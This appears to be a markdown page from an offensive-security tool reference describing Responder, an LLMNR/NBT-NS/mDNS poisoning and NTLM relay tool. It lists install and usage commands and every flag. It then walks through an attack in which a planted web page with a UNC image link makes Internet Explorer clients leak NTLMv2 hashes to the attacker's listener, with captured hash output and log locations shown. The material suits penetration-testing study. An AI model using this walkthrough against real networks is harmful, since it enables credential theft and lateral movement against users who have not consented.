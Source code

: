 ```yaml
---
title : "Responder"
# pre : ' '
description : "LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."
date : 2020-03-11T15:08:07+01:00
# hidden : true
# draft : true
weight : 310
# tags : [""]
---
```


---

LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

## Installation

```plain
git clone https://github.com/lgandx/Responder.git
```

## Usage

Disable UFW before using.

```plain
python3 Responder.py -I eth0 -w -r -f
```

## Flags

```plain
Usage: python ./Responder.py -I eth0 -w -r -f
or:
python ./Responder.py -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

## Examples

{{%resources fa_icon_class="far fa-file-video" pattern="responder.mp4"/%}}

### Analyse mode

```plain
sudo ./Responder.py -I <interface> -A -v
```

### Full mode

```plain
sudo ./Responder.py -I <interface> -w -F --lm -v
```

### Evil website

Works on:

- Internet Explorer 8 (8.0.7600.16385, Windows 7)
- Internet Explorer 8 (8.0.7601.17514, Windows Server 2008R2)
- Internet Explorer 11 (11.719.18362.0, Windows 10)
- Internet Explorer 11 (11.2273.14393.0, Windows Server 2016)
- Internet Explorer 11 (11.1098.17763.0, Windows Server 2019)

Does not work on:

- Microsoft Edge (44.18362.449.0 Windows 10)
- Google Chrome (80.0.3987.149, Windows 10)
- Brave (1.5.115, Windows 10)
- Opera (67.0.3575.115, Windows 10)

### Index.html content

```plain
cat index.html

<html>
<head></head>
<body>
<img src="\\10.10.10.37\picture.jpg" alt=""></img>
</body>
</html>
```

### Host the site

```plain
python3 -m http.server 80
```

### Start responder to catch hashes

```plain
responder -I eth0 -A -f -v
[...]
[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.10.10.37]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[!] Error starting TCP server on port 80, check permissions or other servers running.
[+] Listening for events...
```

### Client browsed to site

![Example](images/example.png)

### Hashes aquired

```plain
[SMB] NTLMv2-SSP Client   : 10.10.10.15
[SMB] NTLMv2-SSP Username : WS7-2\User
[SMB] NTLMv2-SSP Hash     : User::WS7-2:2f5d1007fc42a38e:74DF5D8A06BF0059BCCA1AB300782DED:0101000000000000C0653150DE09D2012E16D14827C3AF5500[...]
```

### Find captured hashes

Folder /logs in the responder folder

```plain
 ~/tools/responder/logs
$ ll
total 22M
-rw-r--r-- 1 root root    0 Jun 19 09:09 Analyzer-Session.log
-rw-r--r-- 1 root root 226K Nov 25 08:55 Config-Responder.log
-rw-r--r-- 1 root root 2.3K Jul  7 10:23 HTTP-NTLMv2-10.0.0.30.txt
-rw-r--r-- 1 root root 1.2K Jul  7 09:06 HTTP-NTLMv2-10.0.0.35.txt
-rw-r--r-- 1 root root 1.2K Oct 26 11:17 HTTP-NTLMv2-10.1.25.122.txt

```

## URL List

- [GitHub.com - Responder](https://github.com/lgandx/Responder)
- [Original DEPRECATED GitHub](https://github.com/SpiderLabs/Responder)
